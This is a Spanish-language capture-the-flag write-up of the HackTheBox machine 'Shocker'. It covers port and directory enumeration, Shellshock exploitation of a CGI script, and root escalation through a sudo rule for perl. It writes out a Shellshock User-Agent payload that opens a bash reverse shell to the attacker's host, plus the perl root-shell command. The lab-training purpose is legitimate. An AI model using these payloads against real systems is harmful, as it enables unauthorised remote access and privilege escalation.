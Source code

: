 ```yaml
---
title: "Shocker - HTB Writeup"
layout: single
excerpt: "Shocker es una máquina de dificultad fácil de HackTheBox. Como el nombre de la máquina indica, se obtiene acceso a la máquina mediante la vulnerabilidad shellshock, para luego escalar privilegios abusando de un privilegio de sudoers que permite ejecutar perl como usuario root."
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/126992433-efd2ea6c-4892-433f-86e7-8f19e31063ac.png"
  teaser_home_page: true
  icon: "assets/images/icons/HackTheBox-icon.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - ShellShock
  - Perl
  - Sudo
---
```



![titulo](https://user-images.githubusercontent.com/67548295/124353510-76699200-dbf6-11eb-81f4-54547de662d1.png)


# Enumeración

Primero, antes de empezar a escanear puertos y todo lo demás, voy a lanzar una traza ICMP con ```ping``` para ver si la máquina está activa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=69.3 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 69.344/69.344/69.344/0.000 ms
```

La máquina nos contesta, quiere decir que está activa, y además mediante el TTL puedo ver que es una máquina con OS Linux.

Más información sobre la deteccion de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/){:target="\_blank"}{:rel="noopener nofollow"}.

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier){:target="\_blank"}{:rel="noopener nofollow"}.

# Nmap

Comenzamos con el escaneo de puertos:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $nmap --open -n -T5 10.10.10.56 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 13:11 WEST
Nmap scan report for 10.10.10.56
Host is up (0.071s latency).
Not shown: 691 closed ports, 307 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

Podemos ver que tenemos el puerto 2222 y 80:
* 80 --> HTTP
* 2222 --> SSH

# User

Vamos a ver lo que hay en el servidor web que hay por el puerto 80:

![navegador1](https://user-images.githubusercontent.com/67548295/124353831-6baffc80-dbf8-11eb-8a89-943741d1ca3a.png)

Y podemos ver que solo hay una simple imagen.

Después de esto, hago uso de la herramienta ```wfuzz``` para enumerar directorios en la web:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/big.txt -u "http://10.10.10.56/FUZZ" -t 50

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000016:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                               
000000015:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                               
000004349:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                                
```
Y vemos que hay un directorio cgi-bin. Seguidamente pruebo a fuzzear en ese directorio en busca de archivos con extensiones comunes.

Ya que si hay archivos y la version de bash es vulnerable, podriamos aprovecharnos de la vulnerabilidad ShellShock para ganar acceso al sistema.

ShellShock es una vulnerabilidad descubierta en 2014 que permite ejecutar codigo de forma remota en la maquina de la victima, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271){:target="\_blank"}{:rel="noopener nofollow"}

Esta vulnerabilidad es posible porque porque bash permite declarar funciones, pero estas no se validan de forma correcta cuando se almacenan en una variable.

Sabiendo esto, fuzzeo por esa ruta encontrada: 

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $gobuster dir -u "http://10.10.10.56/cgi-bin/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,sh,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,py
[+] Timeout:        10s
===============================================================
2021/07/03 13:46:57 Starting gobuster
===============================================================
/user.sh (Status: 200)
```
Hay un script con nombre _user.sh_, lo descargo pero no hay nada interesante en el.

Pruebo a ver si es vulnerable a la vulnerabilidad ShellShock:

```bash
|─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "ping -c 1 10.10.16.15"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:54:39--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 500 Internal Server Error
2021-07-03 13:54:40 ERROR 500: Internal Server Error.
```

Ahi he probado a mandarme una traza icmp a mi maquina mientras estaba en escucha con ```tcpdump```
y me ha llegado la petición:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $sudo tcpdump -i tun0 icmp
 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:54:40.138435 IP 10.10.10.56 > 10.10.16.15: ICMP echo request, id 13628, seq 1, length 64
13:54:40.138492 IP 10.10.16.15 > 10.10.10.56: ICMP echo reply, id 13628, seq 1, length 64

```

Pues bueno, ya teniendo ejecución remota de comandos, es muy sencillo ganar acceso al sistema.

Una simple reverse shell en bash sirve:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:59:05--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Hacemos la petición a la vez que estamos en escucha por el puerto especificado en la reverse shell.

Y obtenemos acceso al sistema:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.56 42136
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A partir de aqui podemos ver la flag del user:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt

cf33XXXXXXXXXXXXXXXXXXXXd5c573fd

shelly@Shocker:/usr/lib/cgi-bin$
```

# Privilege Escalation

Enumerando el sistema en busca de un vector para escalar privilegios, me encuentro que podemos ejecutar ```perl``` como el usuario root:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/$ 
```
Hago uso de la utilidad [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} para spawnear una bash con perl:

![navegador2](https://user-images.githubusercontent.com/67548295/124355337-1546bc00-dc00-11eb-87aa-a0b3d8374d22.png)

Como se puede ver, podemos generar una shell con ese comando. Como podemos correr perl como root, ya podemos rootear la maquina:

```bash
shelly@Shocker:/$ sudo /usr/bin/perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

Y listo, máquina rooteada. En /root/ podremos ver la flag de root:

```bash
# cat /root/root.txt

2eb63e9XXXXXXXXXXXXXXXXXXXX90d45
```

# Opinión y autoPWN

La máquina ha sido bastante facil, pero a la vez me ha permitido repasar conceptos, me ha gustado.
En mi github está disponible un [script autoPWN](https://github.com/z3rObyte/HackTheBox-Autopwn/blob/main/Shocker-autoPWN.py){:target="\_blank"}{:rel="noopener nofollow"} que te automatiza toda la explotación y te devuelve una shell como root en la máquina victima.




